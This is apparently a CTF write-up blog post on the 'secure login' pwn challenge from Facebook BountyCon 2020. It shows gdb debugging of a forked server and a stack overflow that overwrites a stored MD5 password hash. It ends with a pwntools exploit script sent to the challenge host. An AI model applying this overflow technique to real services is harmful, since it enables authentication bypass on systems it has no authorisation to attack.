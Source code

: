 ```yaml
---
layout: post
title:  "Secure login facebook bountycon 2020"
date:   2020-01-26 07:59:00
tags: ctf-writeup pwn
categories: ctf
---
```


this is the only one pwn challenge on facebook bountycon 2020 , here is how i solve it.

the description :

    We developed a super secure login system, but unfortunately we aren't
    familiar with those newfangled memory-safe languages.


and we are given 64-bit ELF binary

    ./secure_login: ELF 64-bit LSB shared object,
    x86-64, version 1 (SYSV), dynamically linked,
    interpreter /lib64/l, BuildID[sha1]=e04815d2376518cc8b4295463f91479b57b8212a,
    for GNU/Linux 3.2.0, not stripped

after open it on ida , i found some function

<ul>
  <li>0x0000000000001269  wait_for_zombie</li>
  <li>0x0000000000001291  check_passwd</li>
  <li>0x0000000000001414  take_connections_forever</li>
  <li>0x00000000000014dc  main</li>
</ul>

let's see ```check_passwd()``` function

<img src="/images/2020-01-25-230713_576x439_scrot.png" />

looks like our input will compare with v17 , i assume v17 and v18 is one variable
since this is md5

this is ```take_connections_forever()``` function

<img src="/images/secure-login/2020-01-26-195358_499x425_scrot.png"/>

look like we have to follow child process to debug ```check_passwd()```, since there's
```fork() ``` on

{% highlight c %}
if ( !fork() )
{
    close(a1);
    check_passwd(v2);
}
{% endhighlight %}
this is can be done by using command ```set follow-fork-mode child``` on gdb
and set breakpoint on ```check_passwd``` now lets try to run it

<img src="/images/secure-login/2020-01-26-200237_1366x768_scrot.png" />

the binary will made a connection on port 10000 , so i connect to this port using
```nc``` command, now lets set another breakpoint on <br/>
```0x00005555555553af <+286>:	call   0x555555555100 <memcmp@plt>```

and try to input ```AAAAAAAA```

<img src="/images/secure-login/2020-01-26-201111_313x87_scrot.png"/>

value on ```0x00007fffffffdda0``` is md5 from our input and ```0x00007fffffffdd90```
from the binary it self , lets see rsp

<img src="/images/secure-login/2020-01-26-201658_359x182_scrot.png" />

```
0x7fffffffdd10:	0x4141414141414141	0x000000000000000a <-- our input
0x7fffffffdd20:	0x0000000000000000	0x0000000000000000
0x7fffffffdd30:	0x0000000000000000	0x0000000000000000
0x7fffffffdd40:	0x0000000000000000	0x0000000000000000
0x7fffffffdd50:	0x0000000000000000	0x0000000000000000
0x7fffffffdd60:	0x0000000000000000	0x0000000000000000
0x7fffffffdd70:	0x0000000000000000	0x0000000000000000
0x7fffffffdd80:	0x0000000000000000	0x0000000000000000
0x7fffffffdd90:	0xa99dd1dbed586201	0xc6bbb0b969f29e4d <-- the md5 password
0x7fffffffdda0:	0xf5f48e17c7c26f5c	0x71750fc6d47e8ca8 <-- this is md5 from our input
```

let's input ```A*152```

<img src="/images/secure-login/2020-01-26-202640_682x750_scrot.png" />

look like we can control ```rsi``` and ```rcx``` , let's see the stack

<img src="/images/secure-login/2020-01-26-202935_353x180_scrot.png" />

now we can try to overwrite ```0x7fffffffdd90``` so the value will have same value
with our input , this is my exploit to solve this challenge

{% highlight python %}
from pwn import *

def main():
    # r = remote("127.0.0.1",10000)
    r  = remote("ec2-3-11-37-224.eu-west-2.compute.amazonaws.com",10000)
    # reached
    p = "A" * (152 - 32)
    p += "A" * 8
    p += p64(0x2016e548d3b035af)
    p += p64(0x0c5b389d3383e136)

    r.sendlineafter(":",p)
    r.interactive()

if __name__ == '__main__':
    main()

{% endhighlight %}

<img src="/images/secure-login/2020-01-26-203415_557x102_scrot.png" />
